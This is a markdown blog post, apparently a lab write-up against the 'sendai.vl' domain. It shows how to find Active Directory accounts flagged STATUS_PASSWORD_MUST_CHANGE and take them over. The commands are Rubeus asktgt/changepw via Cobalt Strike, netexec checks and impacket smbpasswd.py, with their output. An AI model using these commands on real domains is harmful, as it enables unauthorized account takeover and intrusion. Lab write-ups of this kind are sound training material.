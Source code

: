 ```yaml
---
title: Initial Access - STATUS_PASSWORD_MUST_CHANGE
date: 2025-05-14 06:00:00 +/-TTTT
categories: [Initial Access]
tags: [STATUS_PASSWORD_MUST_CHANGE]     # TAG names should always be lowercase
image : /assets/images/statuspass.gif
---
```


## Entry
It will be short but i will try to explain as i can
![alt text](../assets/images/statuspass1.png)

### ➜ Enumerate /w Cobalt Strike
So now we can diff for example with some users each other.

* Thomas.Powell -> password has to change

* Dorothy.Jones -> random user

![alt text](../assets/images/statuspass2.png)

For Thomas.Powell there is not password **SET** yet. We can also check with try to create token so it will work.

| Cobalt Strike Feature                      | Will Show `STATUS_PASSWORD_MUST_CHANGE`? | How                                                                                                             |
| ------------------------------------------ | ---------------------------------------- | --------------------------------------------------------------------------------------------------------------- |
| `make_token`                               | ✅ **Yes**                                | Error shows in Cobalt Strike console output.                                                                    |
| `spawnas`                                  | ✅ **Yes**                                | May fail silently or with an error like `The user's password must be changed before logging on the first time.` |
| `jump psexec`                              | ✅ **Yes**                                | Error in log: `STATUS_PASSWORD_MUST_CHANGE (0xC0000224)`                                                        |
| `runas` in aggressor                       | ✅ **Yes**                                | Error shows if trying to spawn Beacon.                                                                          |
| Pass-the-Hash or Kerberos ticket injection | ❌ **Not directly**                       | Doesn’t use actual password, bypasses logon.                                                                    |

### ➜ Attack /w Cobalt Strike

How we can change password?

![alt text](../assets/images/statuspass3.png)

> The most important part here u have to use RC4 hash for this user otherwise it wont work.
{: .prompt-tip }

Comamnd to execute
```sh
execute-assembly /home/elliot/tools/Rubeus.exe asktgt /domain:sendai.vl /user:Thomas.Powell /changepw /rc4:31d6cfe0d16ae931b73c59d7e0c089c0 /ptt /outfile:ticket-thomas.kirbi
```
![alt text](../assets/images/statuspass5.png)

We can request a ticket for this user now we can change his pass.

#### Fail
Now we can change his pass
Comamnd to execute:
```sh
execute-assembly /home/elliot/tools/Rubeus.exe changepw /ticket:ticket-thomas.kirbi /new:Password123! /targetuser:sendai.vl\Thomas.Powell
```
![alt text](../assets/images/statuspass6.png)

hmm so that’s the error i got this time?it says blah blah blah and strings DC. so i have mention the ip of the dc of domain

#### BOOMMM!!

Command to execute
```sh
execute-assembly /home/elliot/tools/Rubeus.exe changepw /ticket:ticket-thomas.kirbi /new:Password123! /dc:DC.sendai.vl
```
![alt text](../assets/images/statuspass7.png)

Now its work!!
```sh
➜  sendai nxc smb DC.sendai.vl -u 'Thomas.Powell' -p 'Password123!'                  
SMB         10.10.83.239    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.83.239    445    DC               [+] sendai.vl\Thomas.Powell:Password123! 
```

### ➜ Linux Abuse

It will be easy to do it with impacket-tools which is not merged ever (idk why xD)

```sh
➜  sendai nxc smb DC.sendai.vl -u 'Thomas.Powell' -p ''                            
SMB         10.10.83.239    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.83.239    445    DC               [-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE
```

and we can use [smbpasswd.py](https://github.com/snovvcrash/impacket/blob/smbpasswd/examples/smbpasswd.py) for this

```sh
➜  sendai python3 smbpasswd.py  'Elliot.Yates:@sendai.vl' -newpass Password123!
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Current SMB password: 
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```
